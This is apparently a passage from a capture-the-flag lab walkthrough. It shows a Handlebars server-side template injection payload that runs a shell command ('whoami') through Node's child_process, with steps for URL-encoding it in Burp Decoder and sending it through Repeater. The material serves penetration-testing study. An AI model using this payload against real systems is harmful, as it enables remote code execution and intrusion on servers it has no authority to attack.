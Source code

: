 Now, it's time to use:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

#### Decoder

Before pasting the `hacktricks` exploit under `Handlebars (NodeJS)`, we should URL encode it. In this form, web server sometimes cannot read it.

Go to `Decoder`, paste the exploit and mark encode as `URL`.

![Decoder](./Screenshots/bikedecoder.png)

Copy it.

It is time to paste it into `Repeater` and `Send` it.
